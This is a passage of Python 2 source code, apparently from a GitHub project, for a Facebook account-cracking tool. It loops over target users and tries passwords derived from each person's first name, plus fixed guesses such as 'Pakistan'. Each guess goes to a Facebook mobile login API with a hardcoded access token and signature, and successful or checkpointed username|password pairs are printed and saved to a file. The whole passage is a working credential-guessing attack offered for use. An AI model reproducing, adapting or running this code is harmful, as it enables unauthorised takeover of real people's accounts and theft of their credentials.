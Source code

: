                                         cekpoint.append(user+pass1) 
                                 else: 
                                         pass2 = b['first_name']+'Ali123' 
                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                         q = json.load(data) 
                                         if 'access_token' in q: 
                                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2 
                                                 oks.append(user+pass2) 
                                         else: 
                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2 
                                                         cek = open("out/checkpoint.txt", "a") 
                                                         cek.write(user+"|"+pass2+"\n") 
                                                         cek.close() 
                                                         cekpoint.append(user+pass2) 
                                                 else: 
                                                         pass3 = b['first_name'] + '987654' 
                                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                                         q = json.load(data) 
                                                         if 'access_token' in q: 
                                                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3 
                                                                 oks.append(user+pass3) 
                                                         else: 
                                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3 
                                                                         cek = open("out/checkpoint.txt", "a") 
                                                                         cek.write(user+"|"+pass3+"\n") 
                                                                         cek.close() 
                                                                         cekpoint.append(user+pass3) 
                                                                 else: 
                                                                         pass4 = 'Pakistan' 
                                                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                                                         q = json.load(data) 
                                                                         if 'access_token' in q: 
                                                                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4 
                                                                                 oks.append(user+pass4) 
                                                                         else: 
                                                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4 
                                                                                         cek = open("out/checkpoint.txt", "a") 
                                                                                         cek.write(user+"|"+pass4+"\n") 
                                                                                         cek.close() 
                                                                                         cekpoint.append(user+pass4) 
                                                                                 else: 
                                                                                         pass5 = b['first_name'] + 'qwertyuiop' 
                                                                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                                                                         q = json.load(data) 
                                                                                         if 'access_token' in q: 